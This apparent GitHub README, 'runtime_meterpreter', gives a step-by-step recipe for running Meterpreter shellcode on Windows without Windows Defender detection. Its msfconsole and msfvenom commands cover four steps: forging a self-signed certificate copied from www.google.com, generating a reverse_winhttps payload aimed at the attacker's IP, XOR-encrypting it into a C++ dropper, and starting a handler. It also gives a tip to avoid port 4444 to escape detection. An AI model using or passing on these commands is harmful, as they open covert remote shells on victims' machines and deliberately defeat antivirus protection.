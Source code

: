 # runtime_meterpreter

This is a way that today 10/10/2023, gets the meterpreter shellcode executed without Windows Defender detection at runtime and scantime.

1) generate a false SSL certificate for our meterpreter connection. We ll use a metasploit module (This module request a copy of the remote SSL certificate and creates a local (self.signed) version using the information from the remote version.)
   To do this:
      1) type msfconsole
      2) use auxiliary/gather/impersonate_ssl
      3) set RHOSTS www.google.com
      4) run
      5) save the path to the .pem file, it is your certificate (I file PEM vengono utilizzati per archiviare i certificati SSL e le chiavi private che vi sono associate)

2)generate your payload
    to do this:
        1) msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=<YOUR_IP> LPORT=<YOUR_PORT> HANDLERSSLCERTIFICATE=path_to_pem.pem- StagerVerifySSLCert=true -f raw -o meterpreter_winhttps.bin
        2)now XOR encrypt your payload with a custom key
        3)copy the cripted payload in the dropper
        4)compile your dropper.cpp simply by open Visual Studio console and do 'cl.exe dropper.cpp'

3)set up your listener in msfconsole
    to do this:
        1) use exploit/multi/handler
        2) set payload windows/x64/meterpreter/reverse_winhttps
        3) set HANDLERSSLCERTIFICATE path_to_pem.pem
        4) set LHOST <YOUR_IP>
        5) set LPORT <YOUR_PORT>   (avoid port 4444, it gets detected as it is the standard metasploit port)
        6) run

4) just execute the dropper.exe
  
